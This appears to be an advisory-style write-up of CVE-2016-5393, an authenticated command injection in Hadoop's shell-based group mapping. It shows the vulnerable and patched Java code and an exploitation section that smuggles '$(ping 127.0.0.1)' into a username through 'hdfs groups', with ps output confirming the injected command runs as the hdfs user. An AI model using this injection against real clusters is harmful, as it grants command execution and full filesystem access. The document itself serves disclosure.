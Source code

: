 CVE-2016-5393 - Authenticated command execution as the hdfs user
================================================================

Description
-----------
Hadoop 2.6.x < 2.6.5 and 2.7.x < 2.7.3 is vulnerable to an **authenticated command execution as the hdfs user on clusters having `org.apache.hadoop.security.ShellBasedUnixGroupsMapping` as the `hadoop.security.group.mapping` property (defined in `core-site.xml`)**.  
This property is **not the default value**, which is [`org.apache.hadoop.security.JniBasedUnixGroupsMappingWithFallback`](https://hadoop.apache.org/docs/r2.6.0/hadoop-project-dist/hadoop-hdfs/HdfsPermissionsGuide.html#Group_Mapping), and which is not vulnerable.  

The vulnerability relies in the fact that for the group lookup function of a username does not escape the provided **`user` parameter** and pass it to a **`bash -c` command**.   

The vulnerable code is located in the `hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/util/Shell.java` file of [that revision](https://github.com/apache/hadoop/blob/9d4d30243b0fc9630da51a2c17b543ef671d035c/hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/util/Shell.java) in the `getGroupsForUserCommand` function:
```
public static String[] getGroupsForUserCommand(final String user) {
//'groups username' command return is inconsistent across different unixes
return WINDOWS ?
  new String[]
      {getWinUtilsPath(), "groups", "-F", "\"" + user + "\""}
  : new String[] {"bash", "-c", "id -gn " + user + "; id -Gn " + user};
}
```  
This vulnerability has been fixed on August 2nd 2016 in the [following commit.](https://github.com/apache/hadoop/commit/954465e7ba3af3e5b083b6251562e5e77529f906) by adding the `bashQuote` function:
```
static String bashQuote(String arg) {
  StringBuilder buffer = new StringBuilder(arg.length() + 2);
  buffer.append('\'');
  buffer.append(arg.replace("'", "'\\''"));
  buffer.append('\'');
  return buffer.toString();
}

public static String[] getGroupsForUserCommand(final String user) {
  //'groups username' command return is inconsistent across different unixes
  if (WINDOWS) {
    return new String[]
        {getWinUtilsPath(), "groups", "-F", "\"" + user + "\""};
  } else {
    String quotedUser = bashQuote(user);
    return new String[] {"bash", "-c", "id -gn " + quotedUser +
                          "; id -Gn " + quotedUser};
  }
}
```
  
Exploitation
------------
* With the Hadoop client command `hdfs groups`:
  ```
  $ hdfs groups '$(ping 127.0.0.1)'
  
  $ ps aux|grep --color "ping 12"
  ...
  hdfs      6227  0.0  0.0  15484   764 ?        S    13:24   0:00 bash -c id -gn $(ping 127.0.0.1)&& id -Gn $(ping 127.0.0.1)
  hdfs      6228  0.0  0.0  14732   868 ?        S    13:24   0:00 ping 127.0.0.1
  ...
  ```
* Through the `user.name` parameter on WebHDFS, but in that case:
  * `Simple` authentication should be deployed in order to have `user.name` manipulable  
  * So this does not provide more read access to data, as `Simple` authentication does not protect from user spoofing, but it adds command execution capability on the NameNode  
  
  
Post-exploitation
-----------------
Being the `hdfs` user, an attacker could then access the entire distributed filesystem.  
  
  
References
----------
* https://www.cvedetails.com/cve/CVE-2016-5393/
* http://seclists.org/oss-sec/2016/q4/537